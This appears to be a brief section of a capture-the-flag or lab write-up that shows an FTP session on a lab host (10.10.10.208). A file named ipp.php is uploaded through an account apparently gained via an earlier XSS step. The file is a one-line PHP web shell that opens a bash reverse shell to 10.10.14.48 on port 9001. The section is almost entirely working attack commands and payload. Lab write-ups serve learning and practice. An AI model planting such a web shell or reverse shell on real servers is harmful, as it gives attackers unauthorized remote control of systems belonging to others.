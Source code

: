 # FTP
## Uploading a shell
Logged in with an FTP with account created via [[25 - Gym-Club XSS]]
```bash
lftp clarkey@10.10.10.208:/development-test> put ipp.php
75 bytes transferred in 1 second (75 B/s)
lftp clarkey@10.10.10.208:/development-test> dir
-rw-r--r--    1 1002     1002           75 Apr 01 13:03 ipp.php
```

ipp.php
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.48/9001 0>&1'"); ?>
```
